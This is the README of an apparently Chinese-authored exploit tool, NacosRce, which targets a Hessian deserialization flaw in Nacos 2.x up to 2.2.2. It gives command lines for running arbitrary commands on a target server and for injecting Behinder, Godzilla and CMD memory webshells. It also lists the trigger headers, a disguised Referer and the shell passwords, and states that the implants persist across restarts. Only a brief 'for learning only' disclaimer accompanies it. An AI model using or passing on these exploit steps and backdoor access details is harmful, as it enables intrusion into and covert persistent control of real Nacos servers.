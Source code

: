 ## Nacos Hessian 反序列化漏洞利用工具 v0.5

```latex

  _   _                     ____          
 | \ | | __ _  ___ ___  ___|  _ \ ___ ___ 
 |  \| |/ _` |/ __/ _ \/ __| |_) / __/ _ \
 | |\  | (_| | (_| (_) \__ \  _ < (_|  __/
 |_| \_|\__,_|\___\___/|___/_| \_\___\___|
```
<br />Author: 刨洞安全 && 凉风<br />
<br />注意：工具仅供学习使用，请勿滥用，否则后果自负！

<br />**食用方式 **<br />
1. 自动注入内存马并执行命令	java -jar NacosRce.jar Url Jraft端口 "Command"
   <br />	
   ```shell
   java -jar NacosRce.jar http://192.168.90.1:8848  7848 "whoami"
   ```
2. 只注入内存马
   ```shell
      java -jar NacosRce.jar http://192.168.90.1:8848 7848 memshell
   ```
   
   <br />


<br />内存马说明：
<br />一、冰蝎内存马：
   <br />1、需要设置请求头x-client-data:rebeyond
   <br />2、设置Referer:https://www.google.com/
   <br />3、路径随意
   <br />4、密码rebeyond
   ![img.png](img.png)
<br />二、哥斯拉内存马：
   <br />1、需要设置请求头x-client-data:godzilla
   <br />2、设置Referer:https://www.google.com/
   <br />3、路径随意
   <br />4、密码是pass 和 key
<br />![img_1.png](img_1.png)
<br />三、CMD内存马：
   <br />1、需要设置请求头x-client-data:cmd
   <br />2、设置Referer:https://www.google.com/
   <br />3、请求头cmd:要执行的命令
<br />![img_2.png](img_2.png)
v0.5版本实现了：
<br />1、不出网漏洞利用
<br />2、可多次发起漏洞利用
<br />3、同时注入冰蝎/哥斯拉/CMD内存马
<br />4、内存马对nacos多版本进行了兼容
<br />
<br />tips:
<br />1、请用jdk1.8
<br />2、适用于 Nacos 2.x <= 2.2.2
<br />3、非集群的也能打哦
<br />4、此内存马重启nacos依然存活
<br />
<br />关于Windows
<br />如用下面的方式执行，注入内存马时会生成临时文件 C:\Windows\Temp\nacos_data_temp 和 C:\Windows\Temp\nacos_data_temp.class 文件
```shell
java -jar NacosRce.jar http://192.168.90.1:8848  7848 "whoami" windows
```
<br />如果没有在最后加 windows，临时文件会在 /tmp/nacos_data_temp /tmp/nacos_data_temp.class，所以权限足够的话，不指定windows也能打成功
<br />windows 没打成功也许是因为没权限操作C盘或其他原因
<br />
<br />
项目地址：https://github.com/c0olw/NacosRce
推荐哥斯拉Nacos后渗透插件：https://github.com/pap1rman/postnacos
<br />参考文章
<br />[https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)
<br />[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)
<br />[https://github.com/Y4er/ysoserial](https://github.com/Y4er/ysoserial)
